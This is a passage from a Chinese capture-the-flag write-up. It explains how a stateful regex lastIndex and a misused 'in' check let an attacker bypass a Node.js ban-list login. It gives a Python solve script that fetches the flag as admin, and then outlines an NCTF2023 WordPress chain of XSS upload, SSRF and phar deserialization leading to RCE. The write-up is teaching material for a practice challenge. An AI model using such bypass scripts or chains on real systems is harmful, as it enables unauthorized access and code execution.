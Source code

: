 > 每次请求都会通过`build_banned_users_regex()`生成一个新的正则表达式使得每次匹配都从`lastIndex=0`开始，如果能够在第一次匹配到`admin`使得`lastIndex`索引变成`5`之后，第二次没有生成新的就匹配，那么就成功绕过了第一层的鉴权，而这里是使用`try-catch`进行处理的，即使抛出异常，程序也不会中断。所以可以使用其它类型的`ban_username`，就会抛出`TypeError`异常，从而不生成新的`lastIndex`，绕过第一层。

第二层的鉴权，这一层的鉴权就是一个摆设，因为这里是`node`(并不是 Python 什么的)，它返回的并不是元素，所以`test2`一直都是`false`：

```bash
// 基于 in 关键字的封禁用户匹配系统的设计与实现
    let test2 = (username in banned_users)
    console.log(`使用in关键字匹配${username}的结果为：${test2}`)
    if (test2){
        console.log("第二个判断匹配到封禁用户：",username)
        res.send("用户'"+username + "'被封禁，无法鉴权！")
        return
    }
    if (username in users && users[username] === password) {
        next()
        return
    }
    res.send("用户名或密码错误，鉴权失败！")
```

```bash
username="admin"
banned_users=["admin"]
let test2 = (username in banned_users)
console.log(test2)
#False
```

解题脚本如下：

```bash
import urllib.parse

import requests
from urllib.parse import *

url='url'
session=requests.Session()
resp=session.post(urllib.parse.urljoin(url,"/api/register"),json={"username":"aiwin","password":"test"})
resp=session.post(urllib.parse.urljoin(url,"/api/ban_user"),json={"username":"aiwin","password":"test","ban_username":{"1":"error"}})
resp=session.post(urllib.parse.urljoin(url,"/api/flag"),json={"username":"admin","password":"admin"})
resp=session.post(urllib.parse.urljoin(url,"/api/flag"),json={"username":"admin","password":"admin"})
print(resp.text)
```

# \[NCTF2023\] ez\_wordpress

这道题出的真的很好，也很接近真实的环境，主要是通过`wordpress`的插件漏洞配合打`wordpress`的**RCE**链子，分别是通过 XSS 漏洞进行文件上传，通过 SSRF 触发`phar`从而触发**RCE**反序列化链子的命令执行，达到 RCE。
